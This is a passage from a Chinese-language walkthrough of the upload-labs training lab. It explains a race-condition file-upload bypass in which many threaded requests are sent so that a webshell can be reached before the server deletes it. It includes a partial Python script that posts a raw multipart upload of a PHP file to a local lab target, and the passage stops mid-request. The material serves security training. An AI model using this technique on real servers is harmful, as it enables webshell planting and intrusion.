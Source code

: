 然后，如果已知新建文件的路径，可以直接访问

​            如果不知道，可以抓取数据包查看



**方法：**

1.利用burp的Intruder使用多线程发包(如下图)，

2.然后不断在浏览器访问我们的webshell，会有一瞬间的访问成功。（即当线程足够的时候 ，将可能会跳过某个步骤，而直接访问到我们的 webshell，新文件也会创建成功 )

<img src="https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/20200218222719652_1510553817.png" />





**F2:**   Python

```python
\#!/usr/bin/env python3

\# coding:utf-8



import hackhttp

from multiprocessing.dummy import Pool as ThreadPool





def upload(lists):

​    hh = hackhttp.hackhttp()

​    raw = """POST /upload-labs/Pass-17/index.php HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:49.0) Gecko/20100101 Firefox/49.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Referer: http://127.0.0.1/upload-labs/Pass-18/index.php

Cookie: pass=18

Connection: close

Upgrade-Insecure-Requests: 1

Content-Type: multipart/form-data; boundary=---------------------------6696274297634

Content-Length: 341



-----------------------------6696274297634

Content-Disposition: form-data; name="upload_file"; filename="18.php"

```